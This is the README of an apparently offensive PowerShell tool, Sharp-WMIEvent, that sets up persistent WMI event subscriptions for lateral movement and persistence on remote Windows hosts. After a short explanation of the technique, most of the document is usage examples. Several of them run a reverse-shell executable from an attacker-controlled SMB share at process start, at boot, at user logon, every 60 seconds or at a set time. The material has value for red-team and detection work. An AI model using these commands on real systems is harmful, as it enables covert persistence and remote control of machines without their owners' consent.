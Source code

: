 # Sharp-WMIEvent

## Synopsis

The script realizes intranet lateral movement and permission persistence through WMI event subscription.

## Description

WMI provides a robust event system that can be used to respond to almost any event that occurs on the operating system. For example, when a process is created, a specific action can be performed by subscribing to WMI events. Among them, the specific conditions for triggering an event are called "Event Filter", such as user login, new process creation, etc.; the response to the occurrence of a specified event is called "Event Consumer", Including a series of specific operations, such as running scripts, recording logs, sending emails, etc. When deploying event subscriptions, you need to build Filter and Consumer separately and bind them together. For details, please refer to the relevant documents provided by Microsoft.

Hackers can use the capabilities of WMI to deploy permanent event subscriptions on remote hosts and execute arbitrary code or other actions when that event occurs. ActiveScriptEventConsumer and CommandLineEventConsumer in the event consumption class are mainly used. These two Event Consumers can execute any payload on a remote host in a fileless manner. This technique is mainly used to complete permissions persistence on the target system, and can also be used for lateral movement, and requires user credentials that provide administrator permissions on the remote host. For more details, please read the relevant articles in Link by yourself.

## Usage

```powershell
Sharp-WMIEvent [[-ComputerName] <String>] [[-Domain] <String>] [[-Username] <String>] [[-Password] <String>] [[-Fil
    terName] <String>] [[-ConsumerName] <String>] [[-Trigger] <String>] [[-ProcessName] <String>] [[-ScriptPath] <Strin
    g>] [[-Command] <String>] [[-IntervalPeriod] <Int32>] [[-ExecutionTime] <DateTime>] [<CommonParameters>]
```

## EXAMPLE

This command will create a permanent WMI event subscription on the target host specified by -ProcessName and run the script when the svchost.exe process starts.

```powershell
Sharp-WMIEvent -Trigger ProcessStart -ProcessName svchost.exe -ComputerName <IP/Hostname> -Domain <Domain Name> -Username <Username> -Password <Password> -ScriptPath "C:\Sharp-WMIEvent\payload.js" -FilterName <Filter Name> -ConsumerName <Consumer Name>
```

This command will create a permanent WMI event subscription on the target host specified by -ProcessName and execute the command when the svchost.exe process starts.

```powershell
Sharp-WMIEvent -Trigger ProcessStart -ProcessName svchost.exe -ComputerName <IP/Hostname> -Domain <Domain Name> -Username <Username> -Password <Password> -Command "cmd.exe /c \\IP\evilsmb\reverse_tcp.exe" -FilterName <Filter Name> -ConsumerName <Consumer Name>
```

This command will create a permanent WMI event subscription and execute command within 5 minutes of system startup.

```powershell
Sharp-WMIEvent -Trigger Startup -Command "cmd.exe /c \\IP\evilsmb\reverse_tcp.exe" -FilterName <Filter Name> -ConsumerName <Consumer Name>
```

This command will create a permanent WMI event subscription and execute the command when the user logs in.

```powershell
Sharp-WMIEvent -Trigger UserLogon -Command "cmd.exe /c \\IP\evilsmb\reverse_tcp.exe" -FilterName <Filter Name> -ConsumerName <Consumer Name>
```

This command will create a permanent WMI event subscription and execute the command every 60 seconds.

```powershell
Sharp-WMIEvent -Trigger Interval -IntervalPeriod 60 -Command "cmd.exe /c \\IP\evilsmb\reverse_tcp.exe" -FilterName <Filter Name> -ConsumerName <Consumer Name>
```

This command will create a permanent WMI event subscription and execute the command at 08:00:00.

```powershell
Sharp-WMIEvent -Trigger Timed -ExecutionTime '08:00:00' -Command "cmd.exe /c \\IP\evilsmb\reverse_tcp.exe" -FilterName <Filter Name> -ConsumerName <Consumer Name>
```

## Link

https://www.mdsec.co.uk/2020/09/i-like-to-move-it-windows-lateral-movement-part-1-wmi-event-subscription/
